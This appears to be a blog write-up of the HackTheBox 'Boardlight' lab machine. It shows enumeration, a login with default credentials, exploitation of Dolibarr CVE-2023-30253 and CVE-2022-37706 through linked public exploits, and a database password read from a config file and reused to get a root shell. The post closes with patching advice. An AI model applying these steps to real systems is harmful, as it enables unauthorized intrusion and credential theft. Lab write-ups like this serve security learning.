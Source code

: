 ```yaml
---
title: "HackTheBox - Boardlight"
author: Nasrallah
description: ""
date: 2024-09-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, rce]
img_path: /assets/img/hackthebox/machines/boardlight
image:
    path: boardlight.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Boardlight](https://hacktheboxltd.sjv.io/Nasrallah?u=https://app.hackthebox.com/machines/boardlight) from [HackTheBox](https://hacktheboxltd.sjv.io/anqPJZ).

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.11
Host is up (0.48s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

```

We found two open ports, 22 running OpenSSH on Ubuntu and port 80 is an Apache web server also on Ubuntu.

### Web

Let's navigate to the web page.

![webpage](1.png)

Nothing really interesting here, but we find the hostname `board.htb`, let's add that to `/etc/hosts` file.

Let's run a subdomain scan.

```terminal
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.11/ -H "Host: FUZZ.board.htb"  -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.11/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 221ms]
```

We found the subdomain `crm.board.htb` , let's add it to `/etc/hosts` file and navigate to it.

![subdomain](2.png)

It's a login page for `dolibarr` version 17.0.0

I tried `admin:admin` and managed to login

![adminpage](3.png)

Searching on google we find that this version is vulnerable to php code injection [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253).

## **Foothold**

I found the following exploit that we can use to get a reverse shell <https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253>

![4.png]

## **Privilege Escalation**

I asked chatgpt where does dolibarr store database credentials and it told me at `/dolibarr/htdocs/conf/conf.php`

```terminal
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php                         
//                           
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//                            
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//                                     
$dolibarr_main_url_root='http://crm.board.htb'; 
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';      
$dolibarr_main_db_port='3306';    
$dolibarr_main_db_name='dolibarr';                                                             
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

We indeed found a password.

Let's try switching to user `larissa`.

```terminal
www-data@boardlight:/home$ su larissa
Password: 
larissa@boardlight:/home$ 
```

Now let's run linpeas and see what we can find.

![linpeas](5.png)

We found an SUID binary that's unknown.

A quick search on google we find that this is vulnerable to privilege escalation [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

The exploit I'll be using can be found here <https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit>

We copy the exploit to the machine and run it.

```terminal
larissa@boardlight:/tmp$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

We got root!

## **Prevention and Mitigation**

### CVE-2023-30253 & CVE-2022-37706

We found an external and internal software outdated with publicly available exploits.

Update to the latest vendor patch and maintain an active patch schedule for any patches that may be released in the future.

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2022-37706>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
